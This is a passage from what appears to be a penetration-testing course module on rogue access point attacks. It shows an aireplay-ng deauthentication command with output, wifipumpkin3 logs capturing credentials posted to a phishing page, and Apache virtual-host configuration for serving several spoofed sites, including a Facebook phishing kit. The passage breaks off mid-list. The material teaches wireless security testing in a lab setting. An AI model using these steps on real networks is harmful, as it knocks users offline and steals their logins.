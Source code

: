 <p>To do this, we can use <code>aireplay-ng</code> to send deauthentication packets.</p>
<pre><code class="language-shell-session">[!bash!]$ aireplay-ng --deauth 0 -a 9C:9A:03:39:BD:7A wlan0mon

21:24:51  Waiting for beacon frame (BSSID: 9C:9A:03:39:BD:7A) on channel 1
NB: this attack is more effective when targeting
a connected wireless client (-c &lt;client's mac&gt;).
21:24:52  Sending DeAuth (code 7) to broadcast -- BSSID: [9C:9A:03:39:BD:7A]
21:24:52  Sending DeAuth (code 7) to broadcast -- BSSID: [9C:9A:03:39:BD:7A]
21:24:53  Sending DeAuth (code 7) to broadcast -- BSSID: [9C:9A:03:39:BD:7A]
21:24:54  Sending DeAuth (code 7) to broadcast -- BSSID: [9C:9A:03:39:BD:7A]
21:24:54  Sending DeAuth (code 7) to broadcast -- BSSID: [9C:9A:03:39:BD:7A]
</code></pre>
<p>When victims connect to our rogue access point and attempt to visit academy.hackthebox.com, they will be redirected to the phishing page hosted locally on our machine. If the victim enters their credentials on this page, the entered data will be captured and logged.</p>
<p>These credentials will be visible directly in the wifipumpkin3 interface under its session or log details. Additionally, they will be stored in the <code>pass.htm</code> file located in the /var/www/html directory aswell.</p>
<pre><code class="language-shell-session">wp3 &gt;  [  pydhcp_server  ] 21:25:26  - RECV from ('0.0.0.0', 68):
::Body::
	[X][012] hostname: 'client'
	[ ][050] requested_ip_address: IPv4Address('192.168.1.23')
	[-][053] dhcp_message_type: DHCP_DISCOVER
	[-][055] parameter_request_list: 012:hostname, 053:dhcp_message_type

 [  sniffkin3  ] 21:25:31  - [ 10.0.0.21 &gt; 10.0.0.1 ] GET academy.hackthebox.com/ 
 [  sniffkin3  ] 21:25:31  - [ 10.0.0.21 &gt; 10.0.0.1 ] POST academy.hackthebox.com/data.php 
                     payload: _token=dLLTAsNEev8Lsnvedo0wsqk1KrRzfzMrjLkpE9IZ&amp;email=&lt;SNIP&gt;&amp;password=&lt;SNIP&gt;
                     Username: &lt;SNIP&gt;
                     Password: &lt;SNIP&gt;

</code></pre>
<h3>Spoofing Multiple Domains</h3>
<p>To spoof multiple domains, multiple phishing pages must be hosted under separate directories within <code>/var/www/html</code>, served by the <code>Apache</code> server. For example, to add a phishing page for <code>Facebook</code> alongside <code>Academy</code>, a new directory such as <code>/var/www/html/facebook</code> can be created. The <a href="https://github.com/seeratawan01/Facebook-Responsive-Phishing-Page">phishing page contents</a> for Facebook should then be placed inside this directory.</p>
<p>To configure Apache for handling multiple phishing pages, virtual hosts (vhosts) must be set up locally. This allows Apache to serve the appropriate phishing page based on the requested domain.</p>
<ol>
<li>
<code>Setting up Academy vhost</code>
</li>
</ol>
<p>Create the file <code>/etc/apache2/sites-available/intranet1.conf</code> with the following content:</p>
<pre><code class="language-configuration">&lt;VirtualHost *:80&gt;
    ServerAdmin <a class="__cf_email__" data-cfemail="9ffefbf2f6f1dff7fefcf4ebf7fafdf0e7b1fcf0f2" href="/cdn-cgi/l/email-protection">[email protected]</a>
    ServerName academy.hackthebox.com
    ServerAlias www.academy.hackthebox.com
    DocumentRoot /var/www/html
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
&lt;/VirtualHost&gt;
</code></pre>
<p>This configuration ensures that requests for academy.hackthebox.com are served from /var/www/html.</p>
<ol start="2">